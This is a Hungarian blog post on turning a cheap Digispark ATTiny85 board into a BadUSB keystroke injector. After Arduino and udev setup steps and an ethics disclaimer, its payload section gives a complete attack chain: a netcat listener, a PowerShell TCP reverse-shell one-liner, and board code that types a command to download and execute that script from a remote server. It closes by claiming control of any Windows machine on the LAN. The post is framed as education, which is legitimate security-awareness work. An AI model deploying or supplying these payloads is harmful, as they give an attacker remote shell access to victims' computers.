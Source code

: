 +++
title= "Csak egy ártatlan pendrive"
date= 2024-07-23T19:22:46+02:00
draft= false
summary = "Filmekben lehet látni olyat, hogy a titkosügynökök a számítógépbe dugnak egy pendrive-ot és utána történik a varázslat. Ez is valami ehhez hasonló."
description = "Piacon már régota kint van a USB Rubber Ducky, ami lényegében egy pendrive-nak álcázott mikrokontroller. Közönséges érdelődők számára kicsit elérhetetlen áron van szerintem, mivel jelenleg $80 egy darab. Ezért szerettem volna kipróbálni egy olcsóbb de minőségben közelítő alternatívát."
tags = ['Digispark', 'badusb', 'infosec']
+++

Bedugod, eltelik 5 másodperc, megtörténik a varázs és kihúzod. Nem, ez most nem az forgatókönyv amire gondolsz, ez történik a USB Rubber Ducky-hez hasonló mikrokontrollerek használatakor. Lényegében a számítógép ilyenkor ezeket az eszközöket HID-ként, azaz Human Interface Device-ként kezeli, mint például egy billentyűzetet is. Ez azt engedi meg, hogy lényegében az USB bedugása után elindul az arra feltöltött program, és elkezdi gépelni ezerrel azt, mindeközben az operációs rendszer teljes engedelmességet tanusít. Első kérdés az lenne, hogy ezt miért teheti meg, miért nem kér a számítógép jogosultságot? Billentyűzetben is megbízik a számítógép, mivel ember ül mögötte nem pedig egy zsarolóprogram vagy bármi ilyesmi, és hasonlanó viszonyúl minden más HID-hez is, beleértve a "badUSB"-t is. Ezek a kis eszközök viszont sokkal gyorsabban tudnak gépelni mint egy ember, ezért a lehetőségeknek csak a kreativitás szab határt. Azt nem szabad elfelejteni, hogy talán azért nem jelent ez akkora biztonsági kockázatot, mint ahogyan én most itt felvezettem, mert egy nagyon fontos feltételnek teljesülnie kell a müködéséhez: fizikai jelenlét. Ez nagy kihívást jelenthet a legtöbb támadó fél számára, de az esély rá nem 0 tehát számolni kell vele. Olyanra is volt már példa, hogy célzottan például egy rendőrség vagy irodaház parkolójában szórtak szét ilyen kártékony USB-ket és az áldozatok, emberlétükre kiváncsiságból bedugták a szervezeti, céges számítógépükbe és a baj meg is történt még mielőtt észrevették volna.

Persze nem csak csúnya dolgokra lehet ezt használni. Ha például rendszergazdák vagyunk akkor akár a repetatív feladatokat könnyen felcserélhetjük egy bedugás és kihúzás mozdulatra ez segítségével.

## Felelősség

A tudás és a tapsztalat felelősséggel, és azon kötelességgel jár, hogy csak is embertársaink, és környezetünk előnyére, jólétére használhatjuk fel. Semmilyen körülmények között nem élhetünk vissza azzal a hatalommal, amelyet az élet ruházott ránk, amikor voltunk olyan szerencsések, hogy valamire rájöttünk, valamit megtanultunk. Ez különösen igaz a kiberbiztonság témakörében és még máskor is ki fogom ezt hangsúlyozni. Én az itt bemutatott technikákat csakis saját, vagy olyan rendszeren, számítógépen próbálom ki, amelyekhez engedélyt kaptam a tulajdonostól. A célom az a dokumentálás és a tanításnak a szándéka, hogy így egy biztonságosabb internet és informatika születhessen. **Ezáltal szeretném tisztázni, hogy engem semmilyen felelősség nem terhel, hogy TE a saját döntéseid után ezt a tudást mire használod.**

## Digispark ATTiny85

Az alternatívát a Digispark kínálja mely egy ATTiny85 8 bites RISC utasításkészletű mikrokontrollerrel rendelkezik, amely hála a fejlesztőknek, kompatibilis az Arduino IDE fejlesztői környezettel egy kis babrálás után. Az ára rendkívül baráti a $80-hoz képest, magyarországi forgalmazók 1500 Ft környékén árulják, de ha van időd megvárni, akkor lehet hogy Aliexpressről olcsőbban be tudod szerezni. Nem promóció de [itt](https://www.hestore.hu/prod_10036419.html) egy magyar forgalmazónál egy példa.

Itt a cukiság

![Digispark](/digispark.jpg)

### Ardunio IDE setup

Az Arduino IDE-t töltsd le a hivatalos oldalról, vagy csomagkezelőddel (nekem a csomagkezelős változat hiányos volt). Mivel ez nem egy Arduino board ezér külön le kell tölteni hozzá az illesztést. Ezt az alábbi módon tudod megtenni:
1. **File >> Prefrences >> Additional board manager URLs:** ide illeszd be ezt a linket **https://raw.githubusercontent.com/digistump/arduino-boards-index/master/package_digistump_index.json** (más tutoriálokban esetleg más linket látsz az azért van mert azok még a hivatalos oldalról vannak, de sajnos nem olyan rég megszűnt a támogatás onnan, ezért kellett kiásnom a Github repo-ból ugyanarra a fájlra mutató linket).
2. **Board manager >> Itt keresd meg a "Digistump AVR" csomagot** és töltsd le.
3. **Tools >> Itt a "programmer"-nél** válaszd ki a Micronucleus-t, a "board"-nál pedig a Digispark 16,5 Mhz (default)-ot.

Kész is vagy!

### Egyéb

Az eredeti Arduino board-okat az operációs rendszerek automatikusan ellátják a megfelelő jogosultságokkal, hogy programozhatóak legyenek, de könnyen lehet hogy neked a Digisparkot nem ismeri fel hasonlóképpen. Ennek megoldásához Linuxon a továbbiakat kell tenned:

1. Hozz létre egy 49-micronucleus.rules fájlt az itt jelölt helyen: /etc/udev/rules.d/49-micronucleus.rules
2. Másold bele ezeket a sorokat és futtasd a parancsot: 

SUBSYSTEMS=="usb", ATTRS{idVendor}=="16d0", ATTRS{idProduct}=="0753", MODE:="0666"
KERNEL=="ttyACM*", ATTRS{idVendor}=="16d0", ATTRS{idProduct}=="0753", MODE:="0666", ENV{ID_MM_DEVICE_IGNORE}="1"

```sh 
sudo udevadm control --reload-rules
```

## Payload

Most már lehet programozni a kis cukiságot. Én példaképpen egy rendkívül egyszerű reverse shell-t fogok megvalósítani vele, a cél számítógép és a saját gépem között.

> **Reverse shell:** A shell az egy médium, egy interfész a felhasználó és a vas között, ami általában parancssorba gépelt utasításokat lefordít a számítógép nyelvére, hogy aztán a kernel segítségével végrehajtódjanak. A shell az vonatkozhat egy távoli eléréssel kapcsolódott számítógépre is, erre ismert protokolok például az SSH (Secure Shell). Ilyenkor a távoli számítógép "hallgatózik", hogy van-e valaki aki kapcsolatot akar teremteni vele, és ha mi akarunk az otthoni gépünkről elérni az ottani shell-t, akkor mi küldünk kérést neki. A **reverse shell** "reverse" része abból következik, hogy ilyenkor a szerepek feladata megcserélődik, a távoli gép kezdeményezi a csatlakozást. Ezt azért használják támadási vektornak mert a cél számítógép tűzfala a kimenő kéréseket nem akadályozza meg, de a bemenőeket igen. Egy ilyen reverse shell a támadónak esélyt ad, hogy fájlokat szolgáltasson ki, megteremtse a perzisztenciát, hogy ki-be tudjon járkálni kedve szerintde más sérülékenységekkel vegyítve tetszőleges célokat el tud érni vele.

![reverseshell](/reverse_shell.jpg)

Én ezt a legamatőrebb módon teszem meg (ez egy egy valós szituációban nem állna meg a helyét), csupán a koncepciót és a Digispark képességeinek egy töredékét szeretném bemutatni. A lényeg az, hogy lokálisan szolgáltatom egy php szerveren a powershell scriptet, illetve "hallgatózom" a saját gépemen a reverse shell kérést várva. Majd a cél gépen ezt a scriptet töltjük le (az USB segítségével), amit futtatva powershell-ben, csatlakozik a "hallgatózó" számítógépünkhez, így megteremtve a reverse shell-t. Ezt a folyamatot egy valós helyzetben botnettel csinálná a támadó szerintem, hogy a kilétét elfedje.

**Netcat-tel hallgatózom a 4444 porton**

```sh
nc -lp 4444
```

**php szerverrel szolgáltatom azt a könyvtárat, ahol a script van**

```sh
sudo php -S 0.0.0.0:80 -t /directory/to/folder/of/powershellScript/
```

**payload.ps1 fájl tartalma, ez a powershell script amit megosztunk**

Változtasd meg a saját host IP címedre a "HOST_IP_ADDRESS"-t.

```ps
$sm=(New-Object Net.Sockets.TCPClient("HOST_IP_ADDRESS",4444)).GetStream();[byte[]]$bt=0..65535|%{0};while(($i=$sm.Read($bt,0,$bt.Length)) -ne 0){;$d=(New-Object Text.ASCIIEncoding).GetString($bt,0,$i);$st=([text.encoding]::ASCII).GetBytes((iex $d 2>&1));$sm.Write($st,0,$st.Length)}
```
Samratashok érdeme ez a kis script. [Github repo](https://github.com/samratashok/nishang/blob/master/Shells/Invoke-PowerShellTcpOneLine.ps1)

Most pedig az amit tényleg az USB fog csinálni. Ugyebár úgy kell gondolkodnunk mintha egy billentyűzetet kellene programozni előre. Ahogy már említettem ehhez az Arduino IDE segítségünkre lesz.

```C
#include "DigiKeyboard.h" // a header ami leegyszerűsíti a parancsok kiírását
void setup() {
}

void loop() {
  DigiKeyboard.sendKeyStroke(0); // az eddigi gépelést "reset"-eljük
  DigiKeyboard.delay(500); // várást kell illetve ajánlott beiktatni, mert a számítógép sokszor nincs felkészülve a hirtelen billentyűnyomásra és esetleg figyelmenkívül hagy egy betűt, ezzel elrontva mindent akár
  DigiKeyboard.sendKeyStroke(KEY_R, MOD_GUI_LEFT); // Win + R
  DigiKeyboard.delay(500);
  DigiKeyboard.print("powershell \"IEX (New-Object Net.WebClient).DownloadString('https://mywebserver/payload.ps1');\""); // az említett script letöltése és futtatása, itt amúgy nekem itt bejelezett a Windows Defender, ezért kifinomultabb delivery módszer szükséges
  DigiKeyboard.sendKeyStroke(KEY_ENTER);
  for (;;) {
    // üres ciklus, hogy ne fusson le újra a script
  }
}
```
Ezt a kódot feltöltjük a Micronucleus-szal a Digispark-ra és már készen is vagyunk. A saját LAN-on most már bármelyik Windows gép fölött átvehetjük az irányítást.

